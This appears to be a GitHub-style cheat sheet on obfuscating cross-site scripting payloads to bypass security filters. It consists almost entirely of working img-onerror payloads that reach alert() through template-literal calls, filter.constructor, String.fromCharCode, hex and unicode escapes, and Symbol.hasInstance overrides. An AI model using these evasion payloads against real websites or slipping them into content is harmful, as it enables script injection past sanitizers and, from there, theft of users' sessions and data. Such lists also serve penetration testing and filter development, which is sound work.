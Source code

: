 # Obfuscated XSS

The art of hiding Cross-Site Scripting (XSS) payloads to bypass security filters.

Goodbye!

```
<img src onerror=alert`1`>
```

----------

### Basic without Eval

```
<img src onerror="Function`al\x65rt\x281\x29`()">
```

### filter.constructor

```
<img src onerror="[].filter.constructor('('+('al'+'ert')+')(1)')()">
<img src onerror="[].filter.constructor(''+String.fromCharCode(97,108,101,114,116)+'(1)')()">
<img src onerror="[].filter.constructor('\u0061\u006c\u0065\u0072\u0074(1)')()">
<img src onerror="[].filter.constructor('\x61\x6c\x65\x72\x74(1)')()">
```

### Indirect function call obfuscation with Symbol.hasInstance

```
<img src onerror="([][Symbol.hasInstance]=eval,[]instanceof{[Symbol.hasInstance](){\u0061\u006c\u0065\u0072\u0074(0)}})">
<img src onerror="let _=alert+0,x='alert'+_[14]+_[15];Array.prototype[Symbol.hasInstance]=eval;x instanceof []">
```
